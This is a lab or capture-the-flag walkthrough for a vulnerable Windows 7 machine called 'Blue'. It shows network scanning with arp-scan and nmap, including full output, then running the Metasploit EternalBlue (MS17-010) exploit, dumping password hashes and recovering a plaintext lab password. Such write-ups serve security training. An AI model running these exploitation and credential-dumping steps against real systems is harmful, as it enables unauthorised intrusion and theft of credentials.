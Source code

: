 # Blue

# Scanning to Determine IP:

```jsx
arp-scan -l
// 172.16.2.128
```

# Scanning And Enumeration:

1) Starting off with nmap scan

```jsx
nmap -T4 -A -p- 172.16.2.128   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 18:42 PKT
Nmap scan report for 172.16.2.128
Host is up (0.0017s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:45:A8:8C (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 000c2945a88c (VMware)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-26T09:49:38-04:00
| smb2-time: 
|   date: 2023-07-26T13:49:38
|_  start_date: 2023-07-26T13:22:32
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   1.66 ms 172.16.2.128

Nmap done: 1 IP address (1 host up) scanned in 416.11 seconds
```

2) Since, not many useful ports are open and we cannot even determine the SMB port version as well, we will be searching google for information on the OS.

![Untitled](walkthrough_resources/Untitled.png)

<aside>
💡 Rapid 7 and exploit DB are always our best friends so we will be looking into them.

</aside>

# Exploitation:

## 1) METASPLOIT:

Rapid7 tells us about the exploit

![Untitled](walkthrough_resources/Untitled%201.png)

so, launch up metasploit

```jsx
> msfconsole
> use exploit/windows/smb/ms17_010_eternalblue
> set rhosts 172.16.2.128
> exploit
```

and done, we are in the system.

![Untitled](walkthrough_resources/Untitled%202.png)

Running hashdump to see passwords

![Untitled](walkthrough_resources/Untitled%203.png)

# Post Exploitation:

Time to Crack the passwords:

lets dump the hashes we need to crack into a separate file

![Untitled](walkthrough_resources/Untitled%204.png)

**From online Sources, we find the root password as :** `Password456!`

![Untitled](walkthrough_resources/Untitled%205.png)

Time to test it out on the VM:

![Untitled](walkthrough_resources/Untitled%206.png)

And It Works.